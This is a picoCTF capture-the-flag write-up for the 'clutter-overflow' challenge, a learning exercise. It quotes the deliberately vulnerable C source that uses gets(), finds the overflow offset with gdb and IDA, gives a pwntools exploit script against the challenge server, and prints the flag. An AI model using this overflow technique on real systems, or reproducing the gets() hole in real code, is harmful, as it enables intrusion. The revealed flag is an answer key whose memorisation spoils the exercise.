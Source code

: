 # clutter-overflow
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Clutter, clutter everywhere and not a byte to use. 
`nc mars.picoctf.net 31890`

> Challenge Endpoints

[FILE 1](https://github.com/jon-brandy/CTF-WRITE-UP/blob/96af015d1549822d4b32c853d0fc081954537bcd/Asset/clutter-overflow/chall.c)
[FILE 2](https://github.com/jon-brandy/CTF-WRITE-UP/blob/96af015d1549822d4b32c853d0fc081954537bcd/Asset/clutter-overflow/chall.pdf)

## HINTS:
- NONE
## STEPS:
1. First, download both file given.
2. Then let's check the file type of the `chall` program.

![image](https://user-images.githubusercontent.com/70703371/185035005-c7a9a63f-ea81-4780-a5f0-2e670c4b8456.png)

3. It's an ELF 64 Bit and thx God it's not stripped, so we would be able to see function names.
4. Next, i run `checksec` to see what kind of binary protections are enabled.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185035183-248594a0-cc16-47ec-8eb3-692ec47125a9.png)

5. Since there's no canary found so we may do bufferoverflow, notice **NX is enabled** so if we inject code, we can't execute it. **PIE** is also disabled, so each time the binary loads it load at the same location in memory.
6. Now let's view the source code.

> chall.c

```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```S

7. Notice there's a vuln here, where we can do buffer overflow.

![image](https://user-images.githubusercontent.com/70703371/185035940-9ac136f3-5b71-43d8-bdd9-50d715f3c453.png)

8. Since the string input is not specified -> `gets` not `fgets`.
9. Also we may get the `flag.txt` if we meet this conditions.

![image](https://user-images.githubusercontent.com/70703371/185036242-626aa7af-d749-4876-935a-bd2d586bc8f1.png)

> If the code variable has the same size as GOAL -> 0xdeadbeef, got the flag.

10. Next, let's open `gdb` to check out the bufferoverflow and see where the offset is at.
11. Now enter `disass main`.

![image](https://user-images.githubusercontent.com/70703371/185041129-64e1dd84-b861-4d7b-a2af-aff73c5be1a8.png)


> NOTES:

```
SIZE -> 0x100 = 256. To buffer it let's input more thatn 256 bytes.
```

12. Let's input `300` characters.
13. To simplified that i made the `.c` program.

```c
#include <stdio.h>

int main(void)
{
    char a = 'A';
    for(int i = 1; i <= 300; i++)
    {
        printf("%c", a);
    }

    return 0;
}
```

14. Copy the output.
15. Now enter `run` at your `pwndbg` terminal.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185042312-2c31de6b-d6c5-4a6f-9956-dc58e92e7e3b.png)

16. Paste the output.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185042370-663e2a4e-4fb5-442c-b0d0-841e2392ebaf.png)

![image](https://user-images.githubusercontent.com/70703371/185042391-945fbea6-4172-4cb5-9390-3b3e8adca532.png)

17. The program crashed, because we just overflown the buffer.
18. Notice here, the program knowledged that the input we enter is equal to this.

![image](https://user-images.githubusercontent.com/70703371/185042736-2ed627da-59e2-494c-a605-ba6a6eef21a1.png)

19. Not the `deadbeef`.
20. Let's open the program file in IDA.

![image](https://user-images.githubusercontent.com/70703371/185046700-02658b5a-6fea-445f-bed7-97c0ed980e88.png)

21. Press `f5` to decompile it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185046743-26932b91-d873-4f51-bd90-9dbe402d72d2.png)

22. Hmm.. The size changed to 264 and not 256.

![image](https://user-images.githubusercontent.com/70703371/185046800-933d07b2-7608-42dd-90da-651af7d9fb6c.png)

23. Kinda confused here.
24. Now let's jump to `rsp+0h`.

> STACK

![image](https://user-images.githubusercontent.com/70703371/185046984-45d6369d-cbd1-4e4f-b98b-71af1ee0f37c.png)

25. Seems the correct bytes to do buffer overflow is 264 + 8 + 8 -> 280 bytes.
26. For this solution i made a python script using `ret2win` concept.

```py
from pwn import *

offset = 0x108 # 264

payload = flat(b'A' * offset, 0xdeadbeef)

sh = remote('mars.picoctf.net', 31890)

sh.sendlineafter('see?\n', payload)

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/185056804-d79fdbb9-e136-44fa-af56-f2f1a4ed6353.png)


27. Finally, we got the flag!

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```



